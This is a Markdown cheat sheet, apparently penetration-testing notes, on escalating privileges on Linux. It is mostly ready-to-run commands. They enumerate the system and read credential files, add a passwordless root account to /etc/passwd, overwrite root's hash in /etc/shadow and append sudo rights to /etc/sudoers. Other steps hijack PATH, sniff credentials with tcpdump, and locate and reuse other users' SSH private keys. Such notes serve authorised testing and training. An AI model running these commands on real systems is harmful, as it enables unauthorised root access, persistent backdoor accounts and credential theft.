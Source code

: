 # Linux Privilege Escalation

- [LinPEAS](https://github.com/carlospolop/PEASS-ng): automatically looks for privilege escalation vectors
- [pspy](https://github.com/DominicBreuker/pspy/releases): monitor processes
- [GTFOBins](https://gtfobins.github.io/): sudo, suid and capabilities
- metasploit: ``post/multi/recon/local_exploit_suggester``

## System enumeration

```
whoami
id
uname -a
ps aux | grep root
history
env
echo $PATH
cat /etc/passwd | grep "sh$"
find / -writable 2>/dev/null
dpkg -l
```

## Interesting files and directories

```
find / -type f -user <username> -readable 2>/dev/null
find / -writable -type d 2>/dev/null
```

```
/etc/passwd
/etc/shadow
/etc/sudoers
/etc/hosts
/etc/crontab
/home/<user>/.bash_history
```

```
/root
/var/www
/var/www/html
/opt
/tmp
/dev/shm
/var/mail
/var/spool/mail
/home/<user>
/home/<user>/.ssh
/etc/apache2
/etc/nginx
```

## SUDO, SUID and SGID

- ``sudo -l``: list commands the current user can run with sudo
- ``find / -perm -u=s -type f 2>/dev/null``: SUID
- ``find / -perm -g=s -type f 2>/dev/null``: SGID
- try path hijacking: ``export PATH=/tmp:$PATH``

## Capabilities

```
getcap -r / 2>/dev/null
```

## Cron Jobs

- domains: modify ``/etc/hosts``
- commands without setting the path
- wildcards
```
cat /etc/crontab
crontab -l

pspy
```

## Network

- ``ifconfig``
- ``netstat -tulpn``: open ports
- ``tcpdump``: sniff credentials

## Writable pasword files

#### /etc/passwd
```
echo 'root2::0:0::/root:/bin/bash' >> /etc/passwd
su - root2
```

#### /etc/shadow
1. ``python -c "import crypt; print crypt.crypt('NewRootPassword')"``
2. ``nano /etc/shadow``
3. Replace root's hash with the output that you generated
4. ``su root``

#### /etc/sudoers
```
echo "root ALL=(ALL:ALL) ALL" >> /etc/sudoers
sudo su
```

## SSH

```
find / -name id_rsa 2> /dev/null
```
1. Copy id_rsa contents of keys found with the above command
2. Create a local file on your box and paste the content in
3. ``chmod 600 id_rsa``
4. ``ssh -i id_rsa <user>@<ip>``
